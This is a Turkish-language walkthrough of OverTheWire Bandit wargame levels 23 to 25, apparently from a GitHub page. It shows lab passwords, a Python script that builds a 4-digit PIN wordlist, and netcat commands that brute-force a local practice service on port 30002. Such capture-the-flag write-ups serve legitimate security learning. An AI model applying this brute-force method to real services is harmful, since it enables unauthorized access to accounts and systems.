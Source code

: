 1-2 iki dakika bekleyiniz.

```termimal
bandit23@bandit:/tmp/yesil01$ ls -lah
total 3.9M
drwxrwxrwx    2 bandit23 root     4.0K Nov  4 09:32 .
drwxrws-wt 1903 root     root     3.9M Nov  4 09:32 ..
-rw-r--r--    1 bandit24 bandit24   33 Nov  4 09:32 bandit24
-rwxrwxrwx    1 bandit23 root       67 Nov  4 09:30 yesil.sh
bandit23@bandit:/tmp/yesil01$ cat bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

![password](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ")

Bandit Level 24 → Level 25
======
**_ssh bandit24@bandit.labs.overthewire.org -p 2220_** password bir önceki seviyede bulunmuştu.

Hint;
- the password for bandit24 and a secret numeric 4-digit pincode 
30002 portu için brute force atak yapılması gerekmektedir. Öncelikle python3 ile iki parça halinde wordlist oluşturulur.

```python
a = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ".join(['{0:04} \n'.format(num) for num in range(0, 5000)])  
open("1.txt","w").write(a)
a = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ".join(['{0:04} \n'.format(num) for num in range(5000, 10000)])  
open("2.txt","w").write(a)
```

sonrasında ise;

```terminal
bandit24@bandit:/tmp/yesil01$  nc localhost 30002 < 1.txt  | grep -v "Wrong" 
...
bandit24@bandit:/tmp/yesil01$  nc localhost 30002 < 2.txt  | grep -v "Wrong" 
Wrong! Please enter the correct pincode. Try again.                                                                         Wrong! Please enter the correct pincode. Try again.                                                                         Wrong! Please enter the correct pincode. Try again.                                                                         Wrong! Please enter the correct pincode. Try again.                                                                         Wrong! Please enter the correct pincode. Try again.                                                                         Correct!                                                                                                                    The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG  
```

komutları ile çözüme ulaşılır.
